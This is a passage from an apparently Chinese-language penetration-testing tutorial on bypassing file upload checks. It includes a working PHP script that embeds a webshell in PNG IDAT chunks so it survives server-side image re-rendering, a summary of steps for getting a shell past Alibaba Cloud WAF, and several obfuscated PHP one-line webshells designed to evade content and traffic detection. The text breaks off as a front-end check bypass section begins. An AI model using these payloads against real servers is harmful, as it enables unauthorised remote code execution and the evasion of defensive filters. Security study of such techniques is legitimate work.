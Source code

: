 ![image.png](./文件上传.assets/2023_05_19_14_38_13_PZBcWpoe.png)
#### 写入 IDAT 数据块
 可以通过php脚本实现，也可以使用其他语言实现的项目，Python：[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)：  
```php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33); 
$img = imagecreatetruecolor(32, 32); 
for ($y = 0; $y < sizeof($p); $y += 3) { 
  $r = $p[$y]; $g = $p[$y+1]; 
  $b = $p[$y+2]; 
  $color = imagecolorallocate($img, $r, $g, $b); 
  imagesetpixel($img, round($y / 3), 0, $color); 
} 
imagepng($img); 
// php png_payload.php > 1.png 
// <?=$_GET[0]($_POST[1]);?> //写入的webshell
```
 其他的webshell需要通过爆破的方法得到，参考：[https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
### 总结
从这个实例中，研究了GIF、PNG、JPG图片二次渲染，并整理了生成工具。在漏洞点有二次渲染且存在阿里云WAF的情况下，getshell的流程方法。包括:
1.换行绕过阿里云WAF上传文件检测；
2.jpg_paylaod脚本绕过图片二次渲染；
3.webshell免杀过云WAF上传;
4.流量编码过WAF流量检测。
5.一些用到的基础PHPwebshell:
```php
//过文件内容检测 
<?=@$_=$_REQUEST;eval(array($_[_])[0]); 
<?=@$_=$_POST;call_user_func_array("assert",array($_[_])); 
//过文件内容和流量检测 
<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);@EVAL(($x));

```
## 绕过总结
### 0x1 前端检测
```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
```